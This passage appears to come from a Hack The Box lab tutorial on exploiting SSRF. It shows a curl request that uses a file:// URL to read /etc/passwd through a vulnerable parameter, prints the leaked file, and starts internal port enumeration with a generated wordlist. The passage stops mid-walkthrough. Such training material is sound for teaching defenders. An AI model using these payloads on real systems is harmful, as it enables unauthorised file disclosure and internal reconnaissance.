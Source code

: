 **Retrieving a local file through the target application - File Schema**

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd" 

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 926
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:27:17 GMT

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Bear in mind that fetching remote HTML files can lead to Reflected XSS.

Remember, we only have two open ports on the target server. However, there is a possibility of internal applications existing and listening only on localhost. We can use a tool such as ffuf to enumerate these web applications by performing the following steps:

1. Generate a wordlist containing all possible ports.

**Generate a Wordlist**

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ for port in {1..65535};do echo $port >> ports.txt;done
```

2. Issue a cURL request to a random port to get the response size of a request for a non-existent service.

**Curl - Interacting with the Target**

SSRF Exploitation Example
